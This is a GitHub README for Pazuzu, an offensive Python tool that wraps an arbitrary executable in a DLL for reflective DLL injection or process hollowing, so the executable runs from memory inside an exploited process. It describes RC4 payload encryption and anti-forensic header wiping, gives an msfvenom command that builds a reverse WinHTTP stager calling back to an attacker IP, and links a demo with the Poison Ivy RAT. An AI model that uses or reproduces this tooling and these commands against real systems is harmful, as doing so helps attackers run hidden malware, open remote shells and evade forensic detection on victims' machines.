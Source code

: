 # Pazuzu
Pazuzu is a Python script that allows you to embed a binary within a precompiled DLL which uses reflective DLL injection.
The goal is that you can run your own binary directly from memory. This can be useful in various scenarios. 

For example, if you want to exploit a vulnerability and run your own executable instead of a third party reflective DLL. In this case you just have to choose the stager you like (reverse TCP, HTTP, HTTPS, etc.) and set the DLL generated by Pazuzu. Pazuzu  will execute the binary within the address space of the vulnerable process as long as it has the .reloc section.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/reloc.png "Reloc")

**Restrictions**
 
* Not all binaries can be run from memory. For example, applications which require .NET CLR (managed code) won't be run. I will try to implement this in an upcoming version. By now you can download and run .NET application from disk with the -d option (noisy option).
* If .reloc section is not present the script will use a "process hollowing" approach.
* Support for 32-bit for now.

**How-to**
* The script Pazuzu.py accepts as input the binary you want to run from memory (parameter **-f**). Depending on the properties of the binary Pazuzu will choose one of the 3 DLL currently available. These DLL are:
  1. **reloc­x86.dll**: lets you run the binary inside the address space of the process. This option is the most favorable since the binary generates less "noise" in the system. 
  2. **dforking­x86.dll**: the binary in this case also runs from memory but using "process hollowing". This technique is the one used by the ["execute" command with the -m flag](https://community.rapid7.com/community/metasploit/blog/2012/05/08/eternal-sunshine-of-the-spotless-ram) in Meterpreter.
  3. **download­86.dll**: this is the noisiest option since the binary will be downloaded and executed from disk.

* Pazuzu also provides some additional features. For example, the **-x** option will encrypt the section containing the binary by using a random RC4 key (which is stored in the DLL TimeStamp). In addition, after running it the PE header of the DLL and the binary section will be overwritten with zeros. I will add more anti-forensic techniques in future versions.

**Examples**
* To get the Pazuzu DLL I will use a WinHTTP stager:
```
root@kali:~# msfvenom -p windows/dllinject/reverse_winhttp lhost=192.168.1.44 lport=8080 dll=. -f exe -o Winhttp-stager.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 908 bytes
Saved as: Winhttp-stager.exe
```
Let's run Pazuzu.py with the regshot.exe binary (.section present):

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/ejemplo1.png "Regshot.exe (.reloc present)")

Let's run it now with the verbose option to see more detailed information:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/ejemplo2.png "Verbose output")

In the next example I use putty.exe which has no reloc section. I have chosen the system binary "c:\windows\write.exe" (option **-k**) to be "hollowed out" and I have encrypted the binary section with RC4 (option **-x**). The hidden option **-m** just run msfvenom with a winhttp dllinject stager.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/ejemplo3.png "Putty.exe (no .reloc present)")

 Here the Process Explorer output:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/ejemplo3-1.png "Putty.exe (Process Explorer)")

**Video**
* Watch the following video to see a practical example with the Poison Ivy RAT [Video Pazuzu: www.shellsicoming.com] (https://www.youtube.com/watch?v=2OcEbMgQiVo)

**Disclaimer**
* This tool is meant for educational purposes only.
